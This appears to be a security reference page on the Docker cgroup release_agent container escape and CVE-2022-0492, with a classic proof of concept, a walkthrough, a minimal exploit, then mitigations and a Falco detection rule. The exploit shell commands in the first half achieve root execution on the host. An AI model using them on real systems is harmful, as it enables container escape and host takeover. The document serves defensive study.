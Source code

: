 # Docker release_agent cgroups escape

**For further details, refer to the** [**original blog post**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** This is just a summary:

---

## Classic PoC (2019)

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The PoC abuses the **cgroup-v1** `release_agent` feature: when the last task of a cgroup that has `notify_on_release=1` exits, the kernel (in the **initial namespaces on the host**) executes the program whose pathname is stored in the writable file `release_agent`.  Because that execution happens with **full root privileges on the host**, gaining write access to the file is enough for a container escape.

### Short, readable walk-through

1. **Prepare a new cgroup**

   ```shell
   mkdir /tmp/cgrp
   mount -t cgroup -o rdma cgroup /tmp/cgrp   # or –o memory
   mkdir /tmp/cgrp/x
   echo 1 > /tmp/cgrp/x/notify_on_release
   ```

2. **Point `release_agent` to attacker-controlled script on the host**

   ```shell
   host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
   echo "$host_path/cmd" > /tmp/cgrp/release_agent
   ```

3. **Drop the payload**

   ```shell
   cat <<'EOF' > /cmd
#!/bin/sh
ps aux > "$host_path/output"
EOF
   chmod +x /cmd
   ```

4. **Trigger the notifier**

   ```shell
   sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"   # add ourselves and immediately exit
   cat /output                                  # now contains host processes
   ```

---

## 2022 kernel vulnerability – CVE-2022-0492

In February 2022 Yiqi Sun and Kevin Wang discovered that **the kernel did *not* verify capabilities when a process wrote to `release_agent` in cgroup-v1** (function `cgroup_release_agent_write`).

Effectively **any process that could mount a cgroup hierarchy (e.g. via `unshare -UrC`) could write an arbitrary path to `release_agent` without `CAP_SYS_ADMIN` in the *initial* user namespace**.  On a default-configured, root-running Docker/Kubernetes container this allowed:

* privilege escalation to root on the host; ↗
* container escape without the container being privileged.

The flaw was assigned **CVE-2022-0492** (CVSS 7.8 / High) and fixed in the following kernel releases (and all later):

* 5.16.2, 5.15.17, 5.10.93, 5.4.176, 4.19.228, 4.14.265, 4.9.299.

Patch commit: `1e85af15da28 "cgroup: Fix permission checking"`.

### Minimal exploit inside a container

```bash
# prerequisites: container is run as root, no seccomp/AppArmor profile, cgroup-v1 rw inside
apk add --no-cache util-linux  # provides unshare
unshare -UrCm sh -c '
  mkdir /tmp/c; mount -t cgroup -o memory none /tmp/c;
  echo 1 > /tmp/c/notify_on_release;
  echo /proc/self/exe > /tmp/c/release_agent;     # will exec /bin/busybox from host
  (sleep 1; echo 0 > /tmp/c/cgroup.procs) &
  while true; do sleep 1; done
'
```
If the kernel is vulnerable the busybox binary from the *host* executes with full root.

### Hardening & Mitigations

* **Update the kernel** (≥ versions above).  The patch now requires `CAP_SYS_ADMIN` in the *initial* user namespace to write to `release_agent`.
* **Prefer cgroup-v2** – the unified hierarchy **removed the `release_agent` feature completely**, eliminating this class of escapes.
* **Disable unprivileged user namespaces** on hosts that do not need them:
  ```shell
  sysctl -w kernel.unprivileged_userns_clone=0
  ```
* **Mandatory access control**: AppArmor/SELinux policies that deny `mount`, `openat` on `/sys/fs/cgroup/**/release_agent`, or drop `CAP_SYS_ADMIN`, stop the technique even on vulnerable kernels.
* **Read-only bind-mask** all `release_agent` files (Palo Alto script example):
  ```shell
  for f in $(find /sys/fs/cgroup -name release_agent); do
      mount --bind -o ro /dev/null "$f"
  done
  ```

## Detection at runtime

[`Falco`](https://falco.org/) ships a built-in rule since v0.32:

```yaml
- rule: Detect release_agent File Container Escapes
  desc: Detect an attempt to exploit a container escape using release_agent
  condition: open_write and container and fd.name endswith release_agent and
             (user.uid=0 or thread.cap_effective contains CAP_DAC_OVERRIDE) and
             thread.cap_effective contains CAP_SYS_ADMIN
  output: "Potential release_agent container escape (file=%fd.name user=%user.name cap=%thread.cap_effective)"
  priority: CRITICAL
  tags: [container, privilege_escalation]
```

The rule triggers on any write attempt to `*/release_agent` from a process inside a container that still wields `CAP_SYS_ADMIN`.

## References

* [Unit 42 – CVE-2022-0492: container escape via cgroups](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/) – detailed analysis and mitigation script.
* [Sysdig Falco rule & detection guide](https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/)


